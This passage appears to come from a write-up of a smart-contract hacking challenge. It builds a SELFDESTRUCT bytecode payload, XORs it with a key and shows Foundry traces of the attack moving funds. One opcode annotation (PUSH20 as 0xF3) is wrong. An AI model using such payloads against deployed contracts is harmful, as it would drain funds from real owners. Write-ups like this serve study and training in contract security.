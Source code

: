 So our plan, will be : \
1 -  `PUSH` our address on the <u>stack</u>.

2 -  Call the `SELFDESTRUCT`.

3 - Call `STOP` to stop the execution?

Ok, we need to push our address using `PUSH20` for 20 bytes (because addresses are in **uint160**).

So, it will looks like something like:

![Untitled](Untitled%209.png "EVM Playground our malicious opcode")

```solidity
PUSH20(0x5b73c5498c1e3b4dba84de0f1833c4a029d90519)   | 0xF3
SELFDESTRUCT()                                       | 0xFF
STOP                                                 | 0x00
```

The final payload is:

```solidity
735b73c5498c1e3b4dba84de0f1833c4a029d90519FF00
```


Now we have the payload we need to make win the challenge! 
However, we have to reminder the xor operation!
So using python one last time we can xor our payload with the key.
```python
>>> hex(0xba84de0f1833c4a029d905195b73c5498c1e3b4dba84de ^ 0x735b73c5498c1e3b4dba84de0f1833c4a029d90519FF00)
'0xc9dfadca51bfda9b646381c7546bf68d2c37e248a37bde'
```

And we got our **final payload**!!! `0xc9dfadca51bfda9b646381c7546bf68d2c37e248a37bde`
Let's execute this one into on ETH mainnet!

### 5. Proof of Concept & Results
```bash
Traces:
  [112757] CounterScript::run()
    ├─ [0] VM::deal(CounterScript: [0x5b73C5498c1E3b4dbA84de0F1833c4a029d90519], 1000000000000000000)
    │   └─ ← ()
    ├─ emit log_string(:  ----------------------- Before Attack ----------------------------------)
    ├─ emit log_named_uint(key: Balance of the contract, val: 1000000000000000000)
    ├─ emit log_named_uint(key: Balance of the victim, val: 100000000000000000)
    ├─ [22173] 0xA0Eb20483Cb60213bF944c2C3833bebc9fbc4706::fallback{value: 100000000000000000}()
    │   └─ ← ()
    ├─ [0] VM::warp(1672353711)
    │   └─ ← ()
```